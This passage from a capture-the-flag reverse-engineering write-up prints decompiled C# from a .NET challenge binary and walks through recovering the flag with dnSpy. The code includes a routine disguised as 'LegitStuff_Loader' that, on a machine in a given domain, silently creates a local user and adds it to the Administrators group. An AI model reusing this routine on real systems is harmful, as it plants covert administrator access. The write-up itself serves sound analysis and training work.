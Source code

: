 This function creates a local user and adds it to the administrators group. Note that the password ends with `!}`, which could be a part of the flag
```cs
public static void CreateLocalUserAndAddToAdminGroup(string user, string pass){
    try{
        using (DirectoryEntry directoryEntry = new DirectoryEntry("WinNT://" + Environment.MachineName + ",computer")){
            DirectoryEntry directoryEntry2 = directoryEntry.Children.Add(user, "user");
            directoryEntry2.Invoke("SetPassword", new object[] {
                pass + "!}"
            });
            directoryEntry2.CommitChanges();
            DirectoryEntry directoryEntry3 = directoryEntry.Children.Find("Administrators", "group");
            if (directoryEntry3 != null){
                directoryEntry3.Invoke("Add", new object[] {
                    directoryEntry2.Path
                });
            }
        }
    }
    catch (Exception){
    }
}
```

There is only one interesting function in the `EPT1911` class, and it calls both functions we just saw from the `Program` class.

The function checks if the local machine domain is `contoso.com`, and if so it adds `42` to the values of `Settings.Default.encpw`, and appends it to the string `EPT{`. From looking at the `CreateLocalUserAndAddToAdminGroup` function earlier, we know that this is the password created for the local user the program tries to create on our machine.
```cs
private void LegitStuff_Loader(){
    if (Program.IsMachineInDomain("contoso.com")){
        string text = "EPT{";
        foreach (string s in Settings.Default.encpw)
        {
            text += ((char)(int.Parse(s) + 42)).ToString();
        }
        Program.CreateLocalUserAndAddToAdminGroup("EPT", text);
    }
}
```

There are two possibilities here to get the flag:
- Option 1: Find the values of `Settings.Default.encpw` and add `42` to each character/byte to get most of the flag (since `EPT{` is prepended and `!}` appended)
- Option 2: Use breakpoints and step through the program to it decrypt the flag for us


## Option 1: Static Analysis
We can see the value of `Settings.Default.encpw` by clicking it in `dnSpy`, which leads us to the following settings property in the program
```cs
// Token: 0x17000007 RID: 7
// (get) Token: 0x06000013 RID: 19 RVA: 0x00002572 File Offset: 0x00000772
[ApplicationScopedSetting]
[DebuggerNonUserCode]
```
